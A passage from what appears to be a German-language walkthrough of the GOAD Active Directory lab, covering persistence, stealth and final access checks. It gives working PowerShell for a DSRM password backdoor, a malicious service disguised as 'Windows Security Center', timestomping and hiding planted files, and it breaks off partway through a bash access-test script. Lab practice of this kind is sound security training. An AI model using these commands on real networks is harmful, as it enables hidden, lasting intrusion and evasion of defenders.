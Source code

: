 #### DSRM Password Backdoor
```powershell
# Directory Services Restore Mode Password als Backdoor
# Auf Domain Controller
PS> ntdsutil
ntdsutil: set dsrm password
Reset DSRM Administrator Password: reset password on server null
# Neues Passwort setzen: BackdoorPass123!
# Registry-Änderung für Network-Logon
PS> Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2
```

#### Service-basierte Persistence
```powershell
# Windows Service auf allen Systemen
$serviceName = "Windows Security Center"
$serviceDisplayName = "Windows Security Center"
$servicePath = "C:\Windows\System32\svchost.exe -k SecurityCenter"
$serviceDescription = "Manages security and firewall settings"

New-Service -Name $serviceName -DisplayName $serviceDisplayName -BinaryPathName $servicePath -Description $serviceDescription -StartupType Automatic
```

### 9.2 Stealth & Anti-Detection

#### Timestomp & File Attribute Manipulation
```powershell
# Timestamp-Manipulation für Stealth
$file = "C:\Windows\Temp\legitimate_file.dll"
$referenceFile = "C:\Windows\System32\kernel32.dll"
$timestamp = (Get-Item $referenceFile).CreationTime
Set-ItemProperty -Path $file -Name CreationTime -Value $timestamp
Set-ItemProperty -Path $file -Name LastWriteTime -Value $timestamp
Set-ItemProperty -Path $file -Name LastAccessTime -Value $timestamp

# Hidden File Attributes
attrib +h +s C:\Windows\Temp\persistence.ps1
```

---

## 10. Final Verification & Cleanup

### 10.1 Access Verification

#### Complete Domain Access Test
```bash
#!/bin/bash
# complete_access_test.sh

echo "=== GOAD Lab Complete Access Verification ==="

# Test Domain Admin Access
domains=("sevenkingdoms.local" "north.sevenkingdoms.local" "essos.local")
dcs=("192.168.20.10" "192.168.20.11" "192.168.20.12")
sql_servers=("192.168.20.22" "192.168.20.23")

for i in "${!domains[@]}"; do
    domain=${domains[$i]}
    dc=${dcs[$i]}
    
    echo "Testing $domain ($dc)..."
```